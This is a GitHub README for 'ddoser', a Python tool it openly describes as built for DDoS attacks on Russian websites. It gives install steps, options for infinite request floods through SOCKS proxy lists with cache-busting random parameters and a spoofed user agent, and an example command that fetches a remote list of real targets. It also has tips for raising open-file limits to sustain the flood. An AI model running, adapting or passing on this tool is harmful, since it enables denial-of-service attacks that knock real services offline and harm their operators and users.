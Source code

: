 # The you seddoser
Small application for ddos attack, was developed special for kill russian's resources :)  
## Install
### Linux
```shell
sudo apt install python3
sudo apt install python3-pip
git clone https://github.com/taransergey/ddoser.git
cd ddoser/
pip install -r requirements.txt
```
### MacOs
Download and install python3.7-3.9 form here https://www.python.org/downloads/macos/ if you don't have it
or install by brew
```shell
brew install python@3.9
brew link python@3.9
```
### Common for any system
```shell
git clone https://github.com/taransergey/ddoser.git
cd ddoser/
pip install -r requirements.txt
```
## Run
```shell
Usage: ddoser.py [OPTIONS]

  Run ddoser

Options:
  --target-url TEXT         ddos target url
  --target-urls-file TEXT   path or url to file contains urls to ddos
  --proxy-url TEXT          url to proxy resourse
  --proxy-file TEXT         path to file with proxy list
  --concurrency INTEGER     concurrency level
  --count INTEGER           requests count (0 for infinite)
  --timeout INTEGER         requests timeout
  --verbose                 Show verbose log
  --with-random-get-param   add random get argument to prevent cache usage
  --user-agent TEXT         custom user agent
  --log-to-stdout           log to console
  --restart-period INTEGER  period in seconds to restart application (reload
                            proxies ans targets)
  --help                    Show this message and exit.
```
proxy-file or proxy-url should contain proxy list in format like:
```text
ip1:port1#sock5
ip2:port2#sock4
...
ipN:portN#sock4
```
### Example cmd
```shell
python3 ./ddoser.py --concurrency 100 --timeout 60 --with-random-get-param --user-agent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36" --count 0 --log-to-stdout --target-urls-file https://raw.githubusercontent.com/maxindahouze/reactor/main/targets1.txt
```
## Notes
**ddoser** supports only sock proxy, also can start it directly without proxy

If you see an error `too many open files` then you can decrease concurrency/targets count but first of all
try to increase the limits:
### Linux/MacOS:
```shell
ulimit -n 100000
```
### WSL:
```shell
mylimit=100000:
sudo prlimit --nofile=$mylimit --pid $$; ulimit -n $mylimit
```
